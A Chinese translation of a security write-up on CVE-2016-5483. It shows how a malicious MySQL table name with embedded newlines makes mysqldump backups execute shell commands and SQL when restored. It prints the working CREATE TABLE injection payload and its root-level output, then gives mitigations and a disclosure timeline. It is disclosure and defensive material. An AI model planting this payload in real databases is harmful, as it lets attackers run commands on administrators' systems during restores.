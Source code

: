 > 原文链接: https://www.anquanke.com//post/id/85658 


# 【技术分享】CVE-2016-5483：利用mysqldump备份可生成后门


                                阅读量   
                                **99892**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：tarq.io
                                <br>原文地址：[https://blog.tarq.io/cve-2016-5483-backdooring-mysqldump-backups/](https://blog.tarq.io/cve-2016-5483-backdooring-mysqldump-backups/)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p2.ssl.qhimg.com/t011204bee2fde3c42b.jpg)](https://p2.ssl.qhimg.com/t011204bee2fde3c42b.jpg)

****

翻译：[overXsky](http://bobao.360.cn/member/contribute?uid=858486419)

预估稿费：100RMB

投稿方式：发送邮件至[linwei#360.cn](mailto:linwei@360.cn)，或登陆[网页版](http://bobao.360.cn/contribute/index)在线投稿

**<br>**

**前言**

mysqldump是用来创建MySQL数据库逻辑备份的一个常用工具。它在默认配置下可以生成一个.sql文件，其中包含创建/删除表和插入数据等。在导入转储文件的时候，攻击者可以通过制造恶意表名来实现任意SQL语句查询和shell命令执行的目的。另一个与之相关的漏洞利用场景可以参考[通过构造数据库名对Galera进行远程代码执行攻击](https://blog.tarq.io/cve-2016-5483-galera-remote-command-execution-via-crafted-database-name/)。

<br>

**攻击场景**

攻击者已经能够访问你的应用程序并且执行任意SQL查询（比如通过一个过时的Wordpress插件安装的后门）

攻击者拥有创建表的权限（这很常见，许多指南和教程上都建议给安装程序授予此权限，或者执行GRANT ALL PRIVILEGES ON wordpress.*命令来授予Wordpress用户所有的权限）

被攻击目标使用mysqldump进行定期的数据库备份

攻击者想要提升权限并获得更多的系统访问

<br>

**攻击演示**

首先，攻击者使用如下查询创建一个恶意的表：



```
CREATE TABLE `evil  
! id
select user(),@@version/*`  (test text);
```

计划备份任务通常会在运行时为每一个表创建一个包含入口点的转储文件，格式类似于下面这样：



```
--
-- Table structure for table `tablename`
--
```

但是，用我们创建的恶意表名会让这个入口点变成这样：



```
--
-- Table structure for table `evil
! id
select user(),@@version/*`  
--
```

正如你所看到的，表名中的新行让攻击者能够插入任意行数的MySQL命令。一旦这段攻击载荷被成功导入，它将做如下几件事：

如果是它被mysql命令行客户端导入的，那么将通过sh执行id命令

它将执行一个任意查询，可以输出导入它的MySQL用户名和服务器版本

现在，攻击者开始在数据库中删除一些数据，到处插入一些随机损坏的Unicode字符，使得数据库看上去遭到了破坏。当管理员发现时，立马开始行动，准备从最新的备份中恢复数据。一旦他进行恢复操作，攻击载荷就会被执行：



```
$ mysql test &lt; backup.sql
uid=0(root) gid=0(root) groups=0(root) &lt;-- 攻击者的 shell 命令  
user()    @@version  
root@localhost    10.1.18-MariaDB &lt;-- 攻击者的 sql 查询
```

正如你看到的一样，攻击者成功地通过强制管理员恢复数据库来执行了一些讨厌的命令。至于如何创造一个能给攻击者留下后门的有效载荷，这就作为练习留给读者。

<br>

**缓解措施**



当使用mysqldump时加上 –skip-comments参数

在任何可能的地方撤销创建表的权限（这是最有效的手段）

在计划备份中只转储表的数据而不是表的结构

使用一些其他替代工具来备份MySQL数据

<br>

**受影响版本**

[![](https://p5.ssl.qhimg.com/t0135cf128350e82932.png)](https://p5.ssl.qhimg.com/t0135cf128350e82932.png)

<br>

**披露事记**

2016.10.05：发现漏洞并向MariaDB和Oracle报告。

2016.10.06：从MariaDB收到回复，预计将在下个版本中修复。讨论了CVE指配。

2016.10.13：MariaDB确认将在版本5.5.53中修复该漏洞。

2016.10.18：收到CVE编号。

2017.03.09：没有收到来自Oracle Outside的自动回复。超过90天后公开披露漏洞。
